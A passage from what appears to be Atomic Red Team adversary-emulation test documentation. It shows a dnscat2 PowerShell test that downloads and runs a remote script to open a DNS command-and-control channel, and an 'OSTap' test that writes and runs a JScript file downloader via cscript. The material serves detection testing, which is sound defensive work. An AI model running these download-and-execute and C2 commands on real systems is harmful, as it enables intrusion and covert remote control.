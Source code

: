 | Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| domain | Domain Name configured to use DNS Server where your C2 listener is running | string | example.com|
| server_ip | IP address of DNS server where your C2 listener is running | string | 127.0.0.1|

#### Attack Commands: Run with `powershell`!

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/45836819b2339f0bb64eaf294f8cc783635e00c6/dnscat2.ps1')
Start-Dnscat2 -Domain #{domain} -DNSServer #{server_ip}
```

<br/>
<br/>

## Atomic Test #8 - OSTap Payload Download

Uses cscript //E:jscript to download a file

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| script_file | File to execute jscript code from | Path | %TEMP%&#92;OSTapGet.js|
| file_url | URL to retrieve file from | Url | https://128.30.52.100/TR/PNG/iso_8859-1.txt|

#### Attack Commands: Run with `command_prompt`!

```cmd
echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile(filename, 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file}
cscript //E:Jscript #{script_file}
```

#### Cleanup Commands:

```cmd
del #{script_file} /F /Q >nul 2>&1
```

<br/>
